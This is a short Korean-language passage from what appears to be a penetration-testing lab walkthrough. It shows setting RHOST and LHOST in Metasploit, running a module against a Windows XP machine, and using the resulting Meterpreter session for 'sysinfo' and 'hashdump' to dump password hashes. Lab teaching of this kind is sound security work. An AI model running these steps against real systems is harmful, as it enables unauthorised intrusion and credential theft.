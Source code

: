 required에 'yes' 라고 적혀있지만 'current settings'에 세팅이 되어있지 않고 비어있는 것들을 설정해주어야한다.

RHOST(공격할 대상의 IP = WinXP의 IP) LHOST(Local HOST = kali의 IP) 를 설정해주자

```
> set RHOST [공격할 대상의 IP]
> set LHOST [Local Host IP]
```

![4_06](./image4/winXPhash3.png)

모든 설정을 완료 했으면 실행시켜주자

```
> run
```

![4_07](./image4/winXPhash5.png)

XP에 대한 미터프리터 세션이 열렸다.

```
meterpreter > sysinfo
meterpreter > hashdump
```

 sysinfo를 통해 공격 대상에 대한 시스템 정보를 확인할 수 있다.
